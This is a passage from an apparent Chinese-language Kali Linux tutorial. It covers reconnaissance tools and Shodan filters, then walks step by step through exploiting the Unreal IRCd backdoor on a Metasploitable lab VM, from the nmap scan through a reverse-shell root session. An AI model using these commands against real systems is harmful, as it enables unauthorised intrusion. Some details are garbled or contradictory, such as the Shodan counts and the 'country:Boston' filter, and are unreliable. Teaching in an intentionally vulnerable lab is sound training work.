

你也可以通过简单在`FILES`变量中列出你想要的内容并用逗号分隔，来设置模块以同时恢复多种文件类型。

最后，也可以通过 ID 恢复文件（未显示）。

## 恢复文件模块总结

该模块在数据驱动器上运行得非常好，但在需要恢复大量文件的数据驱动器上效果不佳，例如单硬盘系统的主驱动器。

我在虚拟机的一个 Windows 7 启动器上运行了它，该虚拟机用过数千个文件，但运行真的花了几个小时。诚然，它可能找到了一些，但考虑到它会产生大量的可疑网络流量，这在现实生活中可行性如何？

这里是该模块针对包含大量删除文件的驱动器运行时的新网络数据包捕获：

| No. | Source | Destination | Protocol | Info |
| :--- | :--- | :--- | :--- | :--- |
| 674 | 6330245000 | 192.168.198.132 | TCP | 128 terabase > 49167 |
| 675 | 6330342000 | 192.168.198.132 | TCP | 54 terabase > 49167 |
| 676 | 6330460000 | 192.168.198.147 | TCP | 1328 terabase > 49167 |
| 677 | 6330780000 | 192.168.198.132 | TCP | 54 terabase > 49167 |
| 678 | 6330900000 | 192.168.198.132 | TCP | 263 terabase > 49167 |
| 679 | 6421250000 | 192.168.198.132 | TCP | 128 terabase > 49167 |
| 680 | 6423180000 | 192.168.198.132 | TCP | 54 terabase > 49167 |
| 681 | 6425380000 | 192.168.198.132 | TCP | 1328 terabase > 49167 |
| 682 | 6427520000 | 192.168.198.132 | TCP | 54 terabase > 49167 |
| 683 | 6429600000 | 192.168.198.132 | TCP | 263 terabase > 49167 |
| 684 | 6452610000 | 192.168.198.132 | TCP | 128 terabase > 49167 |
| 685 | 6453180000 | 192.168.198.132 | TCP | 54 terabase > 49167 |
| 686 | 6453482000 | 192.168.198.132 | TCP | 1328 terabase > 49167 |
| 687 | 6454960000 | 192.168.198.132 | TCP | 54 terabase > 49167 |

如你从上面的截图所示，Recon-NG 正在为一个名为“DomainName”的虚构网站进行域名枚举。在几秒钟内，就列出了几个域名。

Recon-NG 收集的所有数据都存储在数据库中。你可以创建一个报告来导出这些数据。

只需输入`back`即可退出当前模块：

```
[* 46 total hosts found.

[*] 46 NEW hosts found!

recon-ng [google_site] > back

recon-ng > |
```

再次输入`show modules`。

注意“Reporting”（报告）部分：

```
Reporting
------
reporting/csv_file
reporting/html_report
reporting/list
reporting/pushpin
```

只需使用其中一个报告模块，即可为你获得的数据自动创建一个格式精美的报告。

```
recon-ng > use reporting/csv_file

recon-ng [csv_file] > run

46 records added to '/usr/share/recon-ng/workspaces/default/results.csv'
```

所有文件将存储在`/usr/share/recon-ng/workspaces/default`目录下。

## Recon-NG 总结

域名枚举只是你可以运行的模块之一，还有许多其他模块可选。其中有些模块需要 Twitter、Shodan、LinkedIn 或 Google 等程序的 API 密钥。使用这些工具，你可以从相应的网站获取有关目标的特定信息。

例如，可以搜索来自目标的 Twitter 推文，甚至检查 Shodan 上开放的系统。

我刚刚简要地介绍了 Recon-NG 的一些功能。它确实是一个非常令人印象深刻的工具，非常值得研究。

## Dmitry

Dmitry 是一个用于快速查找网站信息的简易工具。只需从菜单或命令行运行 Dmitry 即可。



`dmitry -s SomeDomainName.com`将执行与 Recon-NG 部分演示的类似的扫描。

## Netdiscover



Netdiscover 是 Kali 中包含的另一个实用的工具。它也可以从命令提示符或菜单系统运行。

Netdiscover 扫描网络寻找设备并显示它们：

```
Currently scanning: 172.168.0.1/24 Screen View: Unique Hosts
4 Captured ARP Request packets, from 3 hosts. Total size: 240
```

| IP | At Mac Address Count | Len | MAC Vendor |
|---|---|---|---|---|
| 192.168.198.2 | 00:50:56:fc:ac:5e | 02 | 120 | VMware, Inc. |
| 192.168.198.1 | 00:50:56:c0:00:88 | 01 | 060 | VMware, Inc. |
| 192.168.198.254 | 00:50:56:e6:77:37 | 01 | 060 | VMware, Inc. |

它还可以运行在隐蔽“被动”模式下，模式下不发送任何数据，仅嗅探流量。

## Zenmap

Zenmap 基本上是广受欢迎的`nmap`命令的图形化版本。如果你熟悉`nmap`，那么 Zenmap 是一个极好的起点。

与之前的命令一样，Zenmap 可以从菜单或命令行启动。

一旦启动，你将看到以下界面：



只需填写目标 IP 地址，并在 Profile（配置）下拉框中选择你想要执行的扫描类型。Zenmap 将会在命令框中显示生成的`nmap`命令开关。然后点击“Scan”（扫描）按钮运行命令：



如上所示，`nmap`命令状态显示在 Nmap Output（Nmap 输出）窗口中。

点击其他标签页查看其他信息，例如“Ports/ Hosts”（端口/主机）标签页：

| Nmap Output | Ports / Hosts | Topology | Host Details | Scans |
|---|---|---|---|---|
| Port | Protocol | State | Service | Version |
| 53 | tcp | open | tcpwrapped | |

或者“Host Details”（主机详情）窗口：



# 总结

在本章中，我们查看了多功能的工具 Recon-NG。我们看到了它是如何被设计成模拟 Metasploit 的，以便熟悉它的用户能够相当快地上手 Recon-NG。

我们还涵盖了其他几个用于主机识别、侦察和信息收集的工具。

## 第 6 章 - Shodan

### 资源

- Shodan 网站 - http://www.shodanhq.com/
- Google Dorks 数据库 - http://www.exploit-db.com/google-dorks/

### 简介

Shodan 是网络上最酷的网站之一。被称为“黑客的 Google”、“黑暗 Google”且许多时候“令人恐惧”，它是一个针对计算机的搜索引擎。

Shodan 允许你通过搜索关键词查找互联网上的计算机。例如，你可以搜索位于加拿大的 Microsoft IIS 7.0 服务器，以及位于非洲的所有 Linux 系统。

如果你熟悉“Google Dorks”，Shodan 是类似的，但是一种更简单的方法来搜索互联网范围。

有效使用 Shodan 的诀窍在于知道正确的关键词。通常它们是制造商名称或设备型号，但有时它们是你永远想不到去寻找的非常冷门的 Web 服务器名称。

但一旦你知道了这些魔术密钥，几秒钟内就可以搜索这些设备。或者通过使用过滤命令，可以将搜索缩小到特定的设备和区域。

安全测试人员可以使用 Shodan 快速评估他们的网络中有哪些系统被公开显示，也许它们本不应该是这样的。在本节中我们将简要讨论如何。

## 为什么要用 Shodan 扫描？

有很多系统不应该被公开访问。任何使用密码的情况下，往往会留出默认密码（容易找到）或简单密码（容易破解）。

公司所有者可能甚至没有直接将这些设备之一放到网上。多年来已经出现了几次发现大型公司物联网控制系统的报告。建筑承包商显然不懂网络安全，将它们完全开放了。

## Shodan 网站

要使用 Shodan，只需将网络浏览器指向 Shodanhq.com：



然后你只需要输入你的关键词进行使用，并点击搜索，就像在搜索引擎上一样。

所以，如果我们想搜索 Cisco 路由器，只需输入“Cisco”并点击“搜索”：

## Shodan

| 服务 | 数量 |
|---|---|
| SSH | 670,656 |
| HTTP | 661,104 |
| HTTPS | 296,452 |
| UnP | 204,143 |
| SIP | 121,104 |

| 热门国家 | 数量 |
|---|---|
| 美国 | 687,850 |
| 俄罗斯联邦 | 96,930 |
| 中国 | 79,444 |
| 意大利 | 64,352 |
| 英国 | 60,467 |

Shodan 返回了全球约两台 Cisco 路由器的链接。你可以点击任何 IP 地址直接浏览到发现的设备。

在屏幕左侧，Shodan 还会显示总设备中有多少个来自特定的国家或位置。你可以点击其中任何一个来缩小搜索范围，你也可以直接在搜索中使用关键词过滤器来精细调整结果。

## 过滤器指南

使用过滤器命令可以快速将你的搜索缩小到非常特定的内容。

例如，假设你是一名微软员工，需要找到所有位于美国、运行 IIS 8.0 且属于微软域的 IIS 服务器？

你可以输入类似下面这行的内容：


这可以快速、方便地从数百万台服务器中进行筛选，并返回符合查询的服务器。

以下是搜索结果示例：

# 微软公司

Microsoft Corp.
157.56.2.2
18.07.2013

2. 国家

详情

3. 主机名

www.cotest1.microsoft.com

```
HTTP/1.0 200 OK
Cache-Control: no-cache
Content-Type: text/html
Last-Modified: Mon, 16 Mar 2009 20:55:26 GMT
Accept-Ranges: bytes
ETag: "699f1d8f6ae91.0"
Server: Microsoft-IIS/8.0
V-Tag: 4b37745508000000
P-Connection: close
DP: ALL DO COR AM CURSE CUS CU IV/DO PRAD TAI
X-Forwarded-By: ASP.NET
Date: Thu, 18 Mar 2013 22:43:58 GMT
Content-Length: 1020
```

4. 正文区域。

- 1. 服务器标题信息。你可以通过将信息放入`title`命令中，搜索其他包含相同标题文本的服务器。
- 2. 指定服务器所在的国家位置，同样可以使用`country`命令进行搜索。
- 3. 主机名搜索命令可以根据域名搜索服务器。
- 4. 正文区域。输入到 Shodan 中的任何未加过滤器的文本都将被视为正文内容搜索，并将查找在正文区域中请求过信息的服务器。

## 过滤器命令

让我们仔细查看过滤器命令。

（要使用这些命令或获取超过一页的结果，你需要注册一个免费的 Shodan 账号。）

> CITY 和 COUNTRY 命令

城市和国家命令允许你缩小搜索的地理位置。

`country:(两位国家代码)` 或 `city:(城市名称)`

```
country:US
city:Memphis
```

更好的办法，如果你要寻找的城市位于多个国家，请将两者结合。

```
country:US city:Memphis
```

> HOSTNAME 命令

使用`hostname`命令扫描整个域名：

```
hostname:google
```

你可以使用完全限定域名（FQDN）的部分，例如`google`，或者使用整个站点，如`www.microsoft.com`或`support.microsoft.com`。

> NET 命令

使用`net`命令扫描单个 IP 或整个网块范围：

```
net:192.168.1.10
net:192.168.1.0/24
```

## TITLE 命令

你也可以使用`title`命令搜索项目：

```
title:"Server Room"
```

标题可能是最容易被忽视的搜索参数之一。你可以扫描整个互联网或你的整个域名来寻找标题关键词。

## 关键词（KEYWORD）搜索

搜索 Shodan 最流行的方法可能是正文关键词搜索。如果你知道目标系统的服务器类型、嵌入式服务器的名称，或者只想搜索“200 OK”网页，那么正文关键词搜索是你的选择。

例如，如果你想找到所有运行 Apache 服务器版本 2.2.8 且仅开放的站点，或者扫描时未返回错误的站点——“200 OK”站点，可以使用以下关键词：

```
apache/2.2.8 200 ok
```

或者你可能想跳过任何 401 未授权页面或 302 重定向页面？只需使用减号和 HTML 错误代码即可：

```
apache/2.2.8-401-302
```

## 组合搜索

有效的 Shodan 搜索是通过组合搜索术语完成的。通过几个关键词，你可以搜索你波士顿地区的所有运行 IIS/7.0 的微软服务器。

```
IIS/7.0 hostname:YourCompany.com country:Boston
```

或者你可以对你的域名进行快速安全扫描，查找需要更新的旧系统。例如任何位于法国的 IIS/5.0 系统。

```
IIS/5.0 hostname:YourCompany.com country:FR
```

登录，输入菜单上显示的名称和密码：

```
msfadmin/ msfadmin
```

你可能不会相信有多少初级安全专业人员询问过 Metasploit 的默认登录凭据。而且它们就写在登录屏幕上！

登录过程非常简单。你基本上会进入一个基于文本的终端提示符：

```
msfadmin@metasploitable:~$ _
```

但我们这里不是为了通过键盘使用系统；目标是尝试从我们的 Kali 系统远程进入该系统。

# 扫描目标

许多安全测试人员的第一步之一是进行`nmap`扫描，以尝试确定哪些端口是开放的，理想情况下甚至是确定这些端口上安装了哪些服务。如果我们能够确定开放的端口和服务的程序版本，我们就可以利用该服务中的漏洞并攻破机器。

让我们从 Kali 机器来看一眼 Metasploitable。

要做的第一件事是运行`nmap`扫描并查看安装了哪些服务。

- 在你的 Kali 系统上打开终端窗口并输入：
`nmap -sS -Pn <metasploitable IP 地址>`

输入你的 Metasploitable 机器的 IP 地址，在我们的案例中是`192.168.198.145`。如果你不知道你的 Metasploitable 的 IP 地址，你可以随时通过输入类似`nmap -sS -Pn 192.168.198.1-150`的内容来扫描一个地址范围。

`-sS`开关告诉`nmap`执行隐身扫描。`-Pn`告诉`nmap`不要运行 ping 扫描来查看哪些服务处于开启状态。

这将向我们显示开放的端口，并尝试列出正在运行的服务：

```
root@kali:~# nmap -sS -Pn 192.168.198.145

Starting Nmap 6.40 (http://nmap.org ) at 2013-10-23 15:02 EDT
Scan report for 192.168.198.145
Host is up (0.0030s latency).
Not shown: 977 closed ports
PORT     STATE     SERVICE
21/tcp   open ftp
22/tcp   open ssh
23/tcp   open telnet
25/tcp   open smtp
53/tcp   open domain
```


`80/tcp` open http

`111/tcp` open rpcbind

`139/tcp` open netbios-ssl

`445/tcp` open microsoft-ds

`512/tcp` open oc

`513/tcp` open login

`514/tcp` open shell

`1099/tcp` open rmireistry

`1524/tcp` open ingresslock

`2049/tcp` open nfs

`2121/tcp` open cpproxy-ftp

`3306/tcp` open mysql

`5432/tcp` open postgres

`5900/tcp` open vnc

`6348/tcp` open x11

`6667/tcp` open irc

`8080/tcp` open ajp13

`8180/tcp` open unknown

MAC Address: `00:0c:29:07:64:4E` (VMware)

Nmap done: 1 IP address [1 host up] scanned in 0.14 seconds

有很多开放的端口！

好了，我们确实有很多可能的突破口；让我们看看能否找到这些端口上运行着哪些服务。再次尝试 `nmap` 命令，但这次添加 `-A` 开关，它将执行 OS 探测并尝试确定服务版本：

```
nmap -sS -Pn -A 192.168.198.145
```

`Nmap` 将运行一会儿，因为它正在尝试检测这些端口上运行的实际服务。几分钟后，你会看到一个类似这样的屏幕：



对于每个端口，我们看到了端口号、服务类型，甚至尝试获取服务的软件版本。

在上面的图中，我们看到几个普通端口是开放的。在高端口也运行着许多服务；其中一个特别是一个 Unreal 实时聊天 (IRC) 程序：



```
6667/tcp open irc         Unreal ircd
| irc-info:
| server: irc.Metasploitable.LAN
| version: Unreal3.2.8.1, irc.Metasploitable.LAN
| servers: 1
| users: 1
| lusers: 0
| users: 1
| uptime: 0 days, 04:49:12
| source host: AD409C6C.76891CD.FFA64D9AF
| source ident: nmap
```

通常在教程中，他们先处理主端口服务。但我建议查看位于高端口的服务。哪个更有可能被修补并保持更新？是核心服务，还是某个安装一次后可能被忘记的次要服务？

所以，让我们看看关于 Unreal 服务能发现什么。

在图中我们可以看到服务版本，在这种情况下是 `Unreal IRC 3.2.8.1`。我们的下一步是搜索该软件版本的漏洞。只需在 Google 上搜索 "unreal3.2.8.1 exploits" 就能解决。

但既然可以在 Metasploit 中搜索，为什么还要用 Google 呢？

## 攻击 Unreal 服务

让我们继续运行 Metasploit：

```
root@kali:~# msfconsole
```

现在使用 `search` 命令并粘贴服务名称和版本：

```
msf > search Unreal 3.2.8.1
```

运行此搜索返回：

```
exploit/unix/unreal_ircd_3281_backdoor   2010-06-12      excellent Unreal CD 3.2.8.1 Backdoor Command Execution
```

Unreal 3.2.8.1 backdoor 的可靠性为 "excellent"！这是一个好消息，因为漏洞根据成功概率和稳定性进行了排名。

如果你记得我们在 Metasploit 中的介绍，攻击漏洞有几个步骤：

- 选择漏洞 (Picking an Exploit)
- 设置漏洞选项 (Setting Exploit Options)
- 选择负载 (Picking a Payload)
- 设置负载选项 (Setting Payload Options)
- 运行漏洞 (Running the Exploit)
- 连接到远程系统 (Connecting to the Remote System)

让我们进入该过程。

## 选择漏洞

如果我们使用 `info` 命令，可以发现更多关于可能漏洞的信息。

```
msf > exploit/unix/unreal_ircd_3281_backdoor
```

执行此操作发现：

| Description |
| :--- |
| 该模块利用一个被添加到 Unreal IRCD 3.2.8.1 下载存档中的恶意后门。该后门存在于2009 年 11 月到 2010 年 6 月之间的 `Unreal3.2.8.1.tar.gz` 存档中。 |

难以如此，让我们执行 `use exploit/unix/unreal_ircd_3281_backdoor` 并检查选项：

```
msf > use exploit/unix/unreal_ircd_3281_backdoor > show options
Module options (exploit/unix/unreal_ircd_3281_backdoor):

Name            Current Setting  Required      Description
RHOST                                 yes           The target address
RPORT           6667             yes           The target port
```

## 设置漏洞选项

你可以看到有很多选项需要设置。只需要远程主机地址：

- `set RHOST 192.168.198.145` (Metasploit IP 地址)

## 选择负载

现在我们需要选择一个负载。输入 `show payloads` 显示所有与漏洞兼容的负载：



遗憾的是它们都是命令 shell。Metpreter shell 比命令 shell 好，但现在我们只使用通用的 reverse。漏洞完成后，这将直接带我们进入目标的终端。现在，输入：

- `set payload cmd/unix/reverse`

```
msf exploit(unreal_ircd_3281_backdoor) > set payload cmd/unix/reverse
msf exploit(unreal_ircd_3281_backdoor) > show options
```

Module options (exploit/unix/unreal_ircd_3281_backdoor):

| Name | Current Setting | Required | Description |
|---|---|---|---|
| RHOST | 192.168.198.145 | yes | The target address |
| RPORT | 6667 | yes | The target port |

Payload options (cmd/unix/reverse):

| Name | Current Setting | Required | Description |
|---|---|---|---|
| LHOST | 192.168.198.146 | yes | The listen address |
| LPORT | 4444 | yes | The listen port |

## 设置负载选项

对于这个负载，我们需要设置 `LHOST`（你的 Kali Metasploit 系统的 IP），然后执行 `show options` 以确保一切设置正确：

```
msf exploit(unreal_ircd_3281_backdoor) > set lhost 192.168.198.146
lhost => 192.168.198.146
msf exploit(unreal_ircd_3281_backdoor) > show options
```

Module options (exploit/unix/unreal_ircd_3281_backdoor):

| Name | Current Setting | Required | Description |
|---|---|---|---|
| RHOST | 192.168.198.145 | yes | The target address |
| RPORT | 6667 | yes | The target port |

Payload options (cmd/unix/reverse):

| Name | Current Setting | Required | Description |
|---|---|---|---|
| LHOST | 192.168.198.146 | yes | The listen address |
| LPORT | 4444 | yes | The listen port |

我们的 `RHOST`（目标）和（Kali 系统）值已设置正确。

万一切就绪，现在只需输入 `exploit`：

```bash
msf exploit(unreal_ircd_321_backdoor) > exploit
[*] Connected to 192.168.198.145:6667...
[*] Started reverse double handler
    :irc.metasploit.LAN NOTICE AUTH ... Looking up your hostname...
    :irc.metasploit.LAN NOTICE AUTH ... Couldn't resolve your hostname; using default
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo ki7J2Zupe66C7SZ2Snu > 
[*] Routing to level 4
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] echo 'ki7J2Zupe66C7SZ2Snu' > /tmp/f6ZupeSZ2Snu\r\n
[*] Matching... 
[*] A is input... 
[*] Command shall session 1 opened (192.168.198.146:4444 -> 192.168.198.145:43558)
-8490
```

注意它显示会话已打开，但随后只是给了你一个闪烁的光标。

```bash
whoami
root
```

如你上方所示，我输入了 `whoami`，目标系统响应为 `root`。Root 用户是你在 Linux 机器上可以拥有的最高级别用户。

成功了！

所有标准的 Linux 命令都在我们拥有的 shell 中运行。

例如，我们可以显示密码文件：



我们必须破解密码文件才能获取实际的密码；我们将在 "密码攻击" 章节中查看这一点。

## 结论

在本章中，我们学习了如何使用 `nmap` 查找测试系统上的开放端口。我们还学习了如何发现这些端口上运行着哪些服务。然后，我们发现了如何发现并针对漏洞服务使用利用程序（exploit）。

接下来，我们将快速查看 Metasploit 内置的一些扫描器，它们可以帮助我们发现并利用特定的服务。

# 第8章 – Metasploitable - 第二部分：扫描器

## 引言

在上一章中，我们查看了使用 `Nmap` 扫描系统以寻找开放端口和服务。这次我们将查看 Metasploit 自带的一些辅助扫描器（auxiliary scanners）。

运行 `nmap` 扫描为我们产生了大量的开放端口供我们选择。许多人不知道的是，Metasploit 自带大量的内置扫描器。这些扫描器允许我们从单台计算机或整个网络中搜索并恢复服务信息！

让我们开始吧！

在本教程中，我们将再次使用 Kali 系统作为测试平台，并将故意构建的 Metasploitable 2 虚拟机作为我们的目标系统。

## 使用扫描器

